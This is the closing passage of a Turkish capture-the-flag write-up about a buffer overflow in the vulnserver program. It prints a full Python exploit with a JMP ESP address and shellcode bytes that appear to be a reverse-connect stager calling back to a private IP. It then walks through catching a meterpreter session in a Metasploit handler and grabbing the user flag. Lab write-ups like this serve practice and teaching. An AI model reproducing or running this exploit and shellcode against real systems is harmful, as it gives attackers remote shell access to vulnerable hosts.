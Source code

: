 Scriptimizin son hali bu şekilde.

        import socket
        tampon="OVERFLOW "
        tampon+="A"*35
        jmpesp="\x8d\x92\x04\x08"
        buf =  ""
        buf += "\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
        buf += "\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x02\x80\x68"
        buf += "\x02\x00\xad\x9e\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
        buf += "\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
        buf += "\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
        buf += "\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
        buf += "\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
        buf += "\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd"
        buf += "\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
        buf += "\x01\x00\x00\x00\xcd\x80"
        payload=tampon+jmpesp+buf
        s=socket.socket()
        s.connect(("192.168.2.147",1337))
        s.send(payload)
        
Bu script'i .py uzantılı şekilde kaydediyoruz.

Bu arada çaktırmadan vulnserver programının exploitini de yazmış olduk. :)

Exploitimizi çalıştırmadan önce gelecek olan bağlantıyı dinlememiz lazım.
Dönecek bağlantı meterpreter olduğu için metasploit'in içinden dinlememiz gerekiyor.
Bunun için de metasploit handler'ını açıyoruz ve gerekli parametreleri veriyoruz.

![enter image description here](https://i.ibb.co/54jY6J8/ov-met.png)

Burası gelecek bağlantıları dinlemeye başladı.
Geriye kalan tek şey exploitimizi çalıştırmak.
Ben dosyayı overflowexploit adıyla kaydettim.

![enter image description here](https://i.ibb.co/Ch3CfkP/ov-exploit.png)

Bu şekilde exploit'imizi çalıştırıyoruz ve inşallah bağlantı düşmüştür diye dua etmeye başlıyoruz :)
Sonrasında handler'ımızın çalıştığı sekmeye geri dönüyoruz veee...

![enter image description here](https://i.ibb.co/PFygbB0/ov-meterpreter.png)

![enter image description here](https://media.giphy.com/media/ekMK9IKH6yvnsWXvWM/giphy.gif)


gif via : [reddit](https://www.reddit.com/r/blackhat/comments/c2kjc9/the_happiness_of_getting_a_meterpreter_session/?utm_source=share&utm_medium=web2x)


BAŞARDIK :)
shell'e düşüp biraz gezinelim.

![enter image description here](https://i.ibb.co/Nnq2rt0/ov-last.png)

Böylece bu makine için user flagimizi elde ettik ve ilk aşamayı tamamladık.

Bu yazıyı uzun olduğu için burada sonlandırıyorum.
Makinede root hakları elde etme aşaması yazımızın 2. partında olacak.


